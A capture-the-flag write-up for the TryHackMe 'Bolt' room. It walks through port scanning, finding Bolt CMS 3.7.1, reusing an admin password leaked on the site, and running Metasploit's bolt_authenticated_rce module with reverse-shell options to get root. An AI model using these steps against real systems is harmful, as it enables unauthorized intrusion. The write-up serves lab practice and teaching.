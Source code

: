 ```yaml
---
layout: post
title: "Bolt"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Security, Web, Bolt, RCE]
image: ../../assets/img/posts/AgentSudo/Bolt.png 

---
```


## Description

A hero is unleashed. 

|**Room**|[Bolt](https://tryhackme.com/room/bolt)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[0x9747](https://tryhackme.com/p/0x9747)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.197.181
```

![image](https://user-images.githubusercontent.com/67465230/159212107-dfa3f645-460a-4de1-a4d1-3fc65ffc2a13.png)

we got 3 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p22,80,8000 10.10.197.181
```

![image](https://user-images.githubusercontent.com/67465230/159212117-6e1c1401-0751-4442-9dcf-7437dc9531ca.png)
![image](https://user-images.githubusercontent.com/67465230/159212127-b9ac7c27-27a7-4dde-b5eb-6e5604a5984a.png)


Scan results describes that port 22 is running ssh service, port 80 is running apache webserver and port 8000 is running a different webserver

Visiting http://10.10.197.181,

![image](https://user-images.githubusercontent.com/67465230/159212132-105a7992-267e-4e66-865c-d80cc1fb5554.png)

We landed on apache default webpage. But there is nothing we can find here.

So, our next target will be http://10.10.197.181:8000,

![image](https://user-images.githubusercontent.com/67465230/159212141-86dc9a7b-f6f2-4807-a044-a6f72ed7cda5.png)

We will land on a website which is made with bolt cms.

Scrolling down, there is a blog post on which admin username is revealed, i.e. bolt,

![image](https://user-images.githubusercontent.com/67465230/159212149-160208b5-c3a0-43f3-aac1-fd8a86a70f1f.png)

Scrolling up a bit, there is password revealed by admin, i.e. `************`,

![image](https://user-images.githubusercontent.com/67465230/159212168-7d7de68f-12c6-4c21-9ee8-07817812e375.png)

After searching this service, I found that version of this software is 3.7.1,

![image](https://user-images.githubusercontent.com/67465230/159212174-73e22365-698c-441e-af2a-d127fbb60190.png)

Now, we can boot up the metasploit in order to exploit this vulnerability and we will use an rce,

```bash
use exploit/unix/webapp/bolt_authenticated_rce
```

![image](https://user-images.githubusercontent.com/67465230/159212193-0e5967c8-da99-4836-b2dc-3dd53c82cc4e.png)

setting options:

- **set username bolt**
- **set password boltadmin123**
- **set lhost tun0**
- **set lport 4444**
- **set rhosts 10.10.197.181**

Fire up this module using run,

![image](https://user-images.githubusercontent.com/67465230/159212201-6f44c8b5-29ed-4572-b35a-ba0442d6a176.png)

and we will get a shell. Issuing id command reveals us that we are root user.

We can find the file name flag.txt in whole system using find command, 

```bash
find / -name flag.txt -type f 2>/dev/null
```

Now, navigate to root directory,

![image](https://user-images.githubusercontent.com/67465230/159212213-3e722881-a61b-451d-bc2a-da8d6067225e.png)

and we can see our root flag.